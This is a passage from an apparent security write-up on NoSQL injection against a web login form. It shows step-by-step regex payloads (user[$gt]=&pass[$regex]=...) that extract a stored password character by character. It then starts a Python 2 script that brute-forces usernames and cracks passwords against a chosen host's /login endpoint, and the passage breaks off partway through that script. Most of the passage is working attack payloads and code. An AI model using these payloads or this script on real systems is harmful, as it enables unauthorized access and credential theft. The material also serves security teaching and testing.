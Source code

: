 ```javascript
user[$gt]=&pass[$regex]=ad.{3}
```
![pass_dump_2]({{ site.baseurl }}/images/Capture du 2017-05-15 13-39-14.png)

```javascript
user[$gt]=&pass[$regex]=adm.{2}
```
![pass_dump_3]({{ site.baseurl }}/images/Capture du 2017-05-15 13-40-32.png)

```javascript
user[$gt]=&pass[$regex]=admi.{1}
```
![pass_dump_4]({{ site.baseurl }}/images/Capture du 2017-05-15 13-41-36.png)

```javascript
user[$gt]=&pass[$regex]=admin{0}
```
![pass_dump_5]({{ site.baseurl }}/images/Capture du 2017-05-15 13-42-46.png)

So the password of the first user in the database is : admin

<br/>
<br/>

## Putting all together

The following python script first use the [$regex] query constructor to do a dictionary attack on usernames, then
try to bruteforce them (aaa-ZZZ). <br/>
Each time a valid user or regex pattern is found the script calculate the length of the corresponding password. <br/>
Finally the script find the password and continue to the next user or pattern. <br/>

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

import os
import requests
import timeit
from itertools import product
from string import ascii_lowercase

users = ["admin", "Admin", "root", "r00t", "administrator", "Administrator", "administrateur", "Administrateur", "user", "User"]
patterns = []
creds = {}
ucreds = {}
host = raw_input("host : ")
port = raw_input("port : ")
repeatchar = raw_input("Repeat ascii bruteforce (ex: 3) : ")
url = "http://" + host + ":" + port + "/login"
start_time = timeit.default_timer()

def view():
	print "NoSQL injection\n==============="
	elapsed = timeit.default_timer() - start_time
	m, s = divmod(elapsed, 60)
	h, m = divmod(m, 60)
	print str(len(ucreds)) + " unique passwords cracked in %d:%02d:%02d\n" % (h, m, s)
	print "%-*s %s" % (25,"Password :","Regex patterns :")
	for k, v in creds.iteritems():
		print "%-*s %s" % (25,v,k)
		
```